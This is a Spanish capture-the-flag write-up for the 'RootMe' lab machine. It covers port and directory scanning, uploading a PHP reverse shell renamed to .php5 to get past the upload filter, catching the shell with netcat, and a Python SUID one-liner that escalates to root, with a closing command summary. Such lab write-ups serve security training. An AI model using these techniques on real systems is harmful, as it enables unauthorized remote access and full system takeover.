








# Write-up RootMe

## Enumeracion

### Escaneo inicial

Empiezo con un escaneo basico para identificar puertos, servicios y sistema operativo:

`nmap -sC -sV -O -T4 IP`

Puertos encontrados:

- 22/tcp SSH
- 80/tcp HTTP - Apache 2.4.41

### Enumeracion web

Lanzo una enumeracion de directorios para buscar rutas interesantes en la aplicacion web:

`gobuster dir -u http://IP -w /usr/share/wordlists/dirb/common.txt`

Directorios encontrados:

- `panel`
- `uploads`
- `css`
- `js`
- `index.php`

## Explotacion

Hemos visto que el directorio de `/panel/` puede ser suscestible a RCE.

### Subida de una reverse shell

La idea es subir una `reverse shell` y saltarme la validacion del servidor para conseguir ejecucion remota de comandos.

Descargo una shell PHP desde:

`https://pentestmonkey.net/tools/web-shells/php-reverse-shell`

Despues la descomprimo y la edito con mi IP y el puerto que voy a poner en escucha.

Para evitar la validacion de extensiones, renombro el archivo de `.php` a `.php5`.

Subo el archivo desde `/panel`.

### Ejecucion de la shell

Antes de lanzarla, abro un listener en mi maquina atacante por el puerto `4445`:

`nc -nlvp 4445`

Luego ejecuto la shell subida haciendo una peticion al archivo:

`curl http://IP/uploads/php-reverse-shell.php5`

Con eso consigo acceso remoto a la maquina.

## Post-explotacion

### Enumeracion local

La shell entra como el usuario:

`www-data`

Busco binarios con permisos SUID para intentar escalar privilegios:

`find / -type f -user root -perm -u=s 2>/dev/null`

Entre los resultados encuentro un binario muy interesante:

`/usr/bin/python2.7`

## Escalado de privilegios

### Abuso del SUID de Python

Reviso `GTFOBins` para ver como aprovechar un `python` con bit SUID.

El comando que necesito ejecutar es:

`python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

Al lanzarlo, consigo una shell con privilegios de `root`.

## Resultado

Consigo acceso total a la maquina aprovechando una subida de archivos para obtener RCE mediante una `reverse shell`, y despues abuso un `python2.7` con permisos SUID para escalar privilegios hasta `root`.

## Resumen de comandos hasta root

- `nmap -sC -sV -O -T4 IP`
- `gobuster dir -u http://IP -w /usr/share/wordlists/dirb/common.txt`
- Editar `php-reverse-shell` con tu IP y puerto
- Renombrar `php-reverse-shell.php` a `php-reverse-shell.php5`
- Subir el archivo desde `/panel`
- `nc -nlvp 4445`
- `curl http://IP/uploads/php-reverse-shell.php5`
- `find / -type f -user root -perm -u=s 2>/dev/null`
- `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
